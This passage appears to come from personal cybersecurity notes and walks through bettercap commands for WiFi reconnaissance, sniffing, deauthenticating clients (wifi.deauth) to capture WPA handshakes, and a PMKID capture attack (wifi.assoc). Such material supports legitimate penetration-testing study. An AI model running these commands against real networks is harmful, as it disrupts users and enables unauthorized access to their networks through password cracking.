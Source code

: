 Now we start bettercap selecting our interface

`bettercap -iface (interface)`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(663).png)

We begin scanning for networks

`wifi.recon on`

We can also show the WiFi Manufacturer of the AP

`set wifi.show.manufacturer true`

`wifi.show`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(269).png)

`set wifi.recon.channel (Channel)`

`set net.sniff.verbose true`

`set net.sniff.output (SSID).pcap`

`set net.sniff on`

`events.stream on`

At this point we can again, simply wait for a device to connect to the network to obtain the handshake, or we may deauthenticate the network.

`wifi.deauth (BSSID)`

Once we obtain the handshake, we will see the notification in our event stream

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(645).png)

## PMKID

The PMKID method is much simpler method. Just like before, we find our interface, enable monitor mode, start bettercap with that interface.

We begin scanning for networks

`wifi.recon on`

We can also show the WiFi Manufacturer of the AP

`set wifi.show.manufacturer true`

`wifi.show`

To start the PMKID attack we simply run

`wifi.assoc (BSSID)`

Once we have successfully received the RSN frame containing PMKID and it has been saved in a pcap format

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(565).png)
